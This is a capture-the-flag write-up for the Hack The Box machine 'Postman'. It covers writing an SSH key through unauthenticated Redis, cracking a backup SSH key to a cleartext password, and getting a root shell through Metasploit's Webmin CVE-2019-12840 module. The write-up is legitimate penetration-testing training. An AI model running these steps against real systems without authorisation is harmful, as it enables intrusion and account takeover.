## About Postman

**Name:** Postman

**Machine:** https://app.hackthebox.com/machines/Postman

**Difficulty:** Easy

**OS:** Linux

**Target IP:** 10.129.2.1

---
## Recon

I'll run an nmap scan to see what ports and services are open on the target:

```
sudo nmap -sC -sV -oA nmap/Postman -v 10.129.2.1
```

There are two web servers running here, one on the usual port 80 and another on port 10000, along with `SSH` and, more interestingly, `Redis` sitting on its default port 6379 without any obvious authentication mentioned yet.

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: The Cyber Geek's Personal Website
|_http-server-header: Apache/2.4.29 (Ubuntu)
6379/tcp open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.910
|_http-favicon: Unknown favicon MD5: 066AF1F6A59FCB67495B545A6B81F371
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

Port 80 shows a personal website that's still under construction.


There's no hardcoded credentials sitting in the page source, and directory brute forcing against it doesn't turn up anything interesting either.


Visiting port 10000 shows a Webmin login page. Webmin is a web-based control panel for Unix-like systems, and it lets system administrators manage user accounts, disk quotas, services, and configuration files through a graphical interface instead of the command line.



Entering some random credentials just shows a login failed message, and directory brute forcing against this one comes up empty too.



## Foothold

With Redis running on port 6379, that's my next stop. I can interact with the service using either `netcat` or the dedicated Redis CLI tool:

```
sudo apt install redis-tools
redis-cli -h 10.129.2.1
```



I get in with no authentication at all, so I'll enumerate it to see what's stored. There are no keys sitting in the database, but I can see a user named `redis` exists on the system.



This is the default account that runs the Redis service, and unlike a normal user it has its own separate home directory at `/var/lib/redis` rather than under `/home`. 

Since it has a home directory at all, there's a chance SSH is enabled for it too, so I'll check by pointing Redis at where its `.ssh` folder would live:

```
CONFIG SET dir /var/lib/redis/.ssh
CONFIG GET DIR
```



No error comes back, which means that directory exists. Next, I'll drop my own public SSH key into its `authorized_keys` file. First, I'll generate a keypair with `ssh-keygen`.



Since Redis dumps its entire memory contents to disk when saving, the raw key file could easily get corrupted by other stray bytes around it, so I'll pad it with extra newlines before injecting it:

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > space_id-rsa.txt
```

Then I'll inject it into Redis as a value:

```
cat space_id-rsa.txt | redis-cli -h 10.129.2.1 -x set ssh_key
```



Now I'll log back into Redis and tell it to save its database directly into the `.ssh` directory, using `authorized_keys` as the filename:

```
CONFIG GET DIR
CONFIG SET DIR /var/lib/redis/.ssh
CONFIG SET dbfilename "authorized_keys"
SAVE
EXIT
```



With that written, I can now log in using my private key:

```
ssh -i id_rsa redis@10.129.2.1
```



There's no user flag sitting in `redis`'s home directory, which means we need to escalate to a different user. Looking through the home directories, there's a user named `Matt`.



Hunting for credentials on the box, I find a backup file under `/opt`:

```
find / -name "*.bak" -type f 2>/dev/null
```



This turns out to be an SSH private key.



I'll copy it over to my attack host and run it through `ssh2john` to make it crackable:

```
ssh2john private_key > private_key.txt
john --wordlist=/usr/share/wordlists/rockyou.txt private_key.txt
```



`john` cracks it to `computer2008`. I'll try logging in as `Matt` with this password directly.



This comes back with permission denied, so SSH probably isn't enabled for this account directly. I still have my SSH session as `redis`, though, so I'll try switching to `Matt` from inside that instead. 



This works, and from here I can read the user flag.



## Privilege Escalation

There's nothing else obviously interesting under `Matt`'s account, so I head back to the Webmin login page and try `Matt`'s recovered password there, and it gets me in.



I find that this specific Webmin version, 1.910, is vulnerable to `CVE-2019-12840`. This lets any user with access to the "Package Updates" module execute commands as `root`.



Checking permissions confirms `Matt` is indeed authorized for that module.



I'll exploit this with Metasploit:

```
search CVE-2019-12840
use 0
show options
set RHOSTS 10.129.2.1
set LHOST tun0
set USERNAME Matt
set PASSWORD computer2008
set SSL true 
run
```



This gets us a shell as `root`, and from there I can read the root flag.



---